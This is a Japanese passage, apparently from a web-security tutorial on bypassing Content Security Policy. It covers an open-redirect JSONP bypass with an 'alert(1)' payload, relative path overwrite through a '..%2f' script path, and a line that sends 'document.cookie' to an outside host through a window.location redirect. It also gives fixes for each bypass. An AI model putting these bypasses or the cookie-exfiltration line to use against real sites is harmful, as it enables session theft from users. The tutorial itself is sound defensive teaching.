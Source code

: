CSPが `https://www.google.com/a/b/c/d` に設定されている場合、パスが考慮されるため、`/test` と `/a/test` の両方のスクリプトはCSPによってブロックされます。

ただし、最後の `http://localhost:5555/301` はサーバーサイドで `https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//` にリダイレクトされます。リダイレクトであるため、パスは考慮されず、スクリプトを読み込むことができるため、パス制限をバイパスできます。

このリダイレクトにより、パスが完全に指定されていても、依然としてバイパスされます。

したがって、最善の解決策は、ウェブサイトにオープンリダイレクトの脆弱性がないこと、およびCSPルールで悪用可能なドメインがないことを保証することです。

## RPO（相対パス上書き）を介したバイパス

パス制限をバイパスするための前述のリダイレクトに加えて、一部のサーバーでは相対パス上書き（RPO）と呼ばれる別のテクニックを使用できます。

例えば、CSPがパス `https://example.com/scripts/react/` を許可している場合、次のようにバイパスできます。

```html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```

ブラウザは最終的に `https://example.com/scripts/angular/angular.js` を読み込みます。

これは、ブラウザにとって、`https://example.com/scripts/react/` の下にある `..%2fangular%2fangular.js` という名前のファイルを読み込んでいるため、CSPに準拠しているためです。

ただし、特定のサーバーの場合、リクエストを受信するとデコードを実行し、実質的に `https://example.com/scripts/react/../angular/angular.js` というURLを要求することになり、これは `https://example.com/scripts/angular/angular.js` と同等です。

ブラウザとサーバー間のURL解釈のこの不整合を悪用することにより、パスルールをバイパスできます。

解決策は、サーバーサイドで `%2f` を `/` と見なさないようにすることです。これにより、ブラウザとサーバー間の解釈が一致し、この問題はなくなります。

## その他のバイパス手法

前述のテクニックは主にCSPルールのバイパスに焦点を当てています。次に、CSP自体の制限を悪用するバイパス手法について説明します。

例えば、ウェブサイトが厳格なCSPを持っているが、JavaScriptの実行を許可しているとします。

```html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'unsafe-inline';">
</head>
<body>
  <script>
    // 任意のJavaScriptコード
  </script>
</body>
</html>
```

目標は `document.cookie` を盗むことです。これはどのように達成できますか？

Cookieを盗むことは問題ではありません。問題はそれを外部に送信することです。CSPはすべての外部リソースの読み込みをブロックするため、`<img>`、`<iframe>`、`fetch()`、さらには `navigator.sendBeacon` であっても、すべてCSPによってブロックされます。

この場合、データを送信する方法がいくつかあります。1つの方法は、`window.location = 'https://example.com?q=' + document.cookie` を使用してページリダイレクトを実行することです。現在、この方法を制限できるCSPルールはありませんが、将来、[navigate-to](https://udn.realityripple.com/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to)というルールが導入される可能性があります。
